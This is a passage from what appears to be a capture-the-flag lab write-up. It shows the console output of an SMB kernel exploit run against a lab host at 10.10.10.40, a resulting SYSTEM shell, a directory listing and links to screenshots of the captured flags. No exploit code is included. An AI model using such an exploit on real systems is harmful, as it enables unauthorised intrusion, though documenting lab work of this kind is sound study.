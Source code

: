 ```bash
unexpected alignment, diff: 0x-6b3fb8
leak failed... try again
CONNECTION: 0xfffffa8002dc6ba0
SESSION: 0xfffff8a001520560
FLINK: 0xfffff8a00891f088
InParam: 0xfffff8a00891915c
MID: 0x2303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service WiMl.....
Starting service WiMl.....
The NETBIOS connection with the remote host timed out.
Removing service WiMl.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

I got a shell!

![](/assets/images/blogs/Pasted image 20210501191120.png)

It seems this pops out directly as system. So we can go and grab both flags.

There's the `pwned.txt` file from before...

```cmd
c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of c:\

14/07/2009  04:20    <DIR>          PerfLogs
24/12/2017  03:23    <DIR>          Program Files
14/07/2017  17:58    <DIR>          Program Files (x86)
01/05/2021  17:55                 0 pwned.txt
01/05/2021  19:14             7,168 sc.exe
14/07/2017  14:48    <DIR>          Share
21/07/2017  07:56    <DIR>          Users
15/01/2021  11:42    <DIR>          Windows
```

And here are the flags:

![](/assets/images/blogs/Pasted image 20210501191356.png)

![](/assets/images/blogs/Pasted image 20210501192018.png)

